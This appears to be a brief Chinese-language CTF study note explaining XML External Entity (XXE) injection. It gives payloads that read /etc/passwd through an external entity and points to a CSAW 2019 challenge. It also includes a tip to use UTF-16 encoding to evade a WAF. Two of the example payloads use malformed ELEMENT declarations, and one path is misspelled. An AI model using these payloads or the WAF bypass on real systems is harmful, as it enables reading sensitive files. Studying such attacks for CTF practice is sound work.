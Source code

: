 XXE

XML External Entity Injection即xml外部实体注入漏洞，简称XXE漏洞。XXE是针对解析XML输入的应用程序的一种攻击。 当弱配置的XML解析器处理包含对外部实体的引用的XML输入时，就会发生此攻击。

典型的XXE攻击是由

XML声明：<?xml version="1.0"?>

DTD部分(通过特殊的命令去其他文件读取信息)

SYSTEM

XML部分组成



```
引用外部的URL 
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT xee SYSTEM "example.com">
]>
 
或者使用伪协议读文件
 
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT xee SYSTEM "file:///ect/passwd">
]>

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
<!ENTITY admin SYSTEM "file:///etc/passwd">
]>
<user><username>&admin;</username><password>123456</password></user>

```

2023/11/24

[[CSAWQual 2019\]Unagi | NSSCTF](https://www.nssctf.cn/problem/192)

脚本再d/ctf_tools

如果被WAF拦截，可用utf-16编码